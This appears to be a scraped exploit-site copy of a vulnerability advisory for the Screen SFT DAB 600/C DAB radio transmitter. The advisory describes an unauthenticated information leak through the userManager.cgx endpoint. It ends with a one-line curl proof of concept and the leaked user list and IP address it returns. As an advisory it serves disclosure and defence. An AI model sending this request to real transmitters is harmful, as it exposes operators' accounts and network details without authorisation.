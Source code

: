 ```yaml
---
title: Screen SFT DAB 600/C Unauthenticated Information Disclosure (userManager.cgx) exploit
url: https://sploitus.com/exploit?id=ZSL-2023-5776&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-05-14
fetch_date: 2025-10-04T11:36:41.793563
---
```


# Screen SFT DAB 600/C Unauthenticated Information Disclosure (userManager.cgx) exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Screen SFT DAB 600/C Unauthenticated Information Disclosure (userManager.cgx)

2023-05-13 | CVSS 7.2

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=ZSL-2023-5776
<html><body><p>Screen SFT DAB 600/C Unauthenticated Information Disclosure (userManager.cgx)

Vendor: DB Elettronica Telecomunicazioni SpA
Product web page: https://www.screen.it | https://www.dbbroadcast.com
                  https://www.dbbroadcast.com/products/radio/sft-dab-series-compact-air/
Affected version: Firmware: 1.9.3
                  Bios firmware: 7.1 (Apr 19 2021)
                  Gui: 2.46
                  FPGA: 169.55
                  uc: 6.15

Summary: Screen's new radio DAB Transmitter is reaching the highest
technology level in both Digital Signal Processing and RF domain.
SFT DAB Series - Compact Radio DAB Transmitter - Air. Thanks to the
digital adaptive precorrection and configuatio flexibility, the Hot
Swap System technology, the compactness and the smart system design,
the SFT DAB are advanced transmitters. They support standards DAB,
DAB+ and T-DMB and are compatible with major headend brands.

Desc: Screen is affected by an information disclosure vulnerability
due to improper access control enforcement. An unauthenticated remote
attacker can exploit this, via a specially crafted request to gain
access to sensitive information including usernames and source IP
addresses.

Tested on: Keil-EWEB/2.1
           MontaVista® Linux® Carrier Grade eXpress (CGX)

Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                            @zeroscience

Advisory ID: ZSL-2023-5776
Advisory URL: https://www.zeroscience.mk/en/vulnerabilities/ZSL-2023-5776.php

19.03.2023

--

$ curl 'http://SFTDAB/system/api/userManager.cgx'
{"ssbtType":"userManager","ssbtIdx":0,"ssbtObj":{"admin":false,"users":[{"user":"testingus","type":"GUEST","connected":false,"info":null},{"user":"joxy","type":"OPERATOR","connected":false,"info":null},{"user":"dude","type":"OPERATOR","connected":true,"info":{"ip":"192.168.178.150","tmo":120}}]}}
</p></body></html>
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)